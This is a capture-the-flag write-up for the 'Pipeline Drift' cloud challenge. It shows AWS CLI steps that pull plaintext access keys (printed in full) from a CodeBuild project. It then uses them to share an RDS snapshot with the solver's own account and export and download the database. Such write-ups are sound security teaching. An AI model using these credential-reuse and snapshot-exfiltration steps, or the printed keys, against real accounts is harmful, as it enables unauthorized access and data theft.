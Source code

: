 # Pipeline Drift - Cloud Village CTF 2025

## Challenge Description

<img src="./Pipeline_Drift_870pts_part1.jpg" width="300">

## Initial Reconnaissance
Using the credentials provided in the challenge description, we performed basic AWS enumeration:

```bash
aws sts get-caller-identity
{
    "UserId": "AIDAXMQAGGFOSPOD3JJXA",
    "Account": "507880288605",
    "Arn": "arn:aws:iam::507880288605:user/ctf_player"
}
```

Since the challenge mentioned CI/CD operations, we systematically searched for CodeBuild projects across AWS regions:

```bash
bash check_codebuild_regions.sh
Checking CodeBuild projects across all default AWS regions...
==========================================================
Current AWS Identity:
{
    "UserId": "AIDAXMQAGGFOSPOD3JJXA",
    "Account": "507880288605",
    "Arn": "arn:aws:iam::507880288605:user/ctf_player"
}

Checking region: us-east-1
  ❌ No projects found

Checking region: us-east-2
  ❌ No projects found

Checking region: us-west-1
  ❌ No projects found

Checking region: us-west-2
  ✅ Found projects in us-west-2:
    - legacy-project

^C
```

Found `legacy-project` in the `us-west-2` region.

## CodeBuild Leaked Credentials
We examined the legacy project configuration and discovered more credentials:

```bash
aws codebuild batch-get-projects --names legacy-project --region us-west-2
```
```json
            "environment": {
                "type": "LINUX_CONTAINER",
                "image": "aws/codebuild/amazonlinux2-x86_64-standard:4.0",
                "computeType": "BUILD_GENERAL1_SMALL",
                "environmentVariables": [
                    {
                        "name": "AWS_ACCESS_KEY_ID",
                        "value": "AKIAXMQAGGFO5DD6NFK7",
                        "type": "PLAINTEXT"
                    },
                    {
                        "name": "AWS_SECRET_ACCESS_KEY",
                        "value": "3Hlzlj+3h2w4Z7L5qZ6JmjRjs1WonB87ujw4nHVo",
                        "type": "PLAINTEXT"
                    }
                ],
                "privilegedMode": false,
                "imagePullCredentialsType": "CODEBUILD"
            },
```

These credentials belonged to a different user: `leaky_user`.

```bash
aws sts get-caller-identity
{
    "UserId": "AIDAXMQAGGFO2NODOZTLM",
    "Account": "507880288605",
    "Arn": "arn:aws:iam::507880288605:user/leaky_user"
}
```

Doing some quick enumeration I didn't found any bucket or interesting role, so I've decided to use Prowler to check for any interesting findings in the account.

```bash
prowler aws --region us-west-2
```

The OCSF output showed some RDS resources worth digging:
![alt text](image.png)

## The "Pipeline Drift"
The `legacy-app-db-snapshot` resonated with the concept of "pipeline drift" - leftover infrastructure that should have been cleaned up when the original database was decommissioned during infrastructure changes.

The snapshot was already shared with external accounts, so it looks we could add our own account to the list of allowed accounts:

```bash
aws rds modify-db-snapshot-attribute \
    --db-snapshot-identifier "legacy-app-db-snapshot" \
    --attribute-name "restore" \
    --values-to-add "[REDACTED]" \
    --region us-west-2
```

## RDS Snapshot Copy
Switching to personal AWS credentials, we copied the shared snapshot:

```bash
aws rds copy-db-snapshot \
    --source-db-snapshot-identifier "arn:aws:rds:us-west-2:507880288605:snapshot:legacy-app-db-snapshot" \
    --target-db-snapshot-identifier "legacy-ctf-copy-$(date +%s)" \
    --region "us-west-2"
```

Now, instead of restoring the full database, we exported the snapshot data to S3 for analysis:

```bash
aws s3 mb s3://rds-snapshot-export-ctf-1754679175 --region us-west-2

aws rds start-export-task \
    --export-task-identifier "legacy-export-$(date +%s)" \
    --source-arn "arn:aws:rds:us-west-2:[REDACTED]:snapshot:legacy-ctf-copy-1754679887" \
    --s3-bucket-name "rds-snapshot-export-ctf-1754679175" \
    --iam-role-arn "arn:aws:iam::[REDACTED]:role/rds-snapshot-export-role" \
    --kms-key-id "alias/ctf" \
    --region "us-west-2"
```

Downloaded the exported Parquet files and analyzed the database contents:

```bash
aws s3 sync "s3://rds-snapshot-export-ctf-1754679175/legacy-export-1754680136/" ./exported-database-data/
```

Using an [online parquet viewer](https://www.parquet-viewer.com), we found the flag in the `secrets` table:
![](parquet.png)

## Conclusion
The Pipeline Drift challenge showcased how poor CI/CD security combined with inadequate infrastructure lifecycle management can lead to significant data exposure, emphasizing the need for comprehensive cloud security practices.
